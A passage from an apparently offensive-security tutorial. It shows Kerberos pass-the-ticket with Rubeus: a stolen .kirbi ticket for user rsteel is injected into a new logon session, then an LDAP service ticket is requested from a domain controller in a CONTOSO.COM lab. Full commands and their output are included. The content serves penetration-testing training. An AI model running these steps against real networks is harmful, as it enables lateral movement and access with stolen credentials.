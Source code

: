 \
PowerView supports the same, so we can leverage its amazing functionality without the cost of executing PowerShell directly on a target.

To leverage Kerberos tickets, start a new process with a fake password using `Rubeus createnetonly` and the `/show` parameter.

```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /domain:CONTOSO.COM /username:rsteel /password:FakePass /program:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /ticket:C:\Users\Attacker\Desktop\rsteel.kirbi /show
```

`Rubeus klist` in the new window will confirm the ticket has been injected.

```batch
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe klist

Action: List Kerberos Tickets (Current User)

[*] Current LUID    : 0x27c136

  UserName                 : Attacker
  Domain                   : DESKTOP-FGSTPS7
  LogonId                  : 0x27c136
  UserSID                  : S-1-5-21-2869105692-1800599516-1289031363-1005
  AuthenticationPackage    : Negotiate
  LogonType                : NewCredentials
  LogonTime                : 28/04/2025 12:48:18
  LogonServer              :
  LogonServerDNSDomain     :
  UserPrincipalName        :

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 28/04/2025 12:30:43 ; 28/04/2025 22:30:43 ; 05/05/2025 12:30:43
      Server Name       : krbtgt/CONTOSO.COM @ CONTOSO.COM
      Client Name       : rsteel @ CONTOSO.COM
      Flags             : name_canonicalize, pre_authent, initial, renewable, forwardable (40e10000)
```

We also need to request service tickets manually, rather than relying on Windows doing it magically for us.  For example, to query Active Directory, use `asktgs` to get a ticket for LDAP and pass it directly into this logon session.

```batch
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:ldap/lon-dc-1 /ticket:C:\Users\Attacker\Desktop\rsteel.kirbi /dc:lon-dc-1 /ptt

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'ldap/lon-dc-1'
[*] Using domain controller: lon-dc-1 (10.10.120.1)
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFl[...snip...]kYy0x

  ServiceName              :  ldap/lon-dc-1
  ServiceRealm             :  CONTOSO.COM
  UserName                 :  rsteel (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  28/04/2025 12:51:42
  EndTime                  :  28/04/2025 22:30:43
  RenewTill                :  05/05/2025 12:30:43
```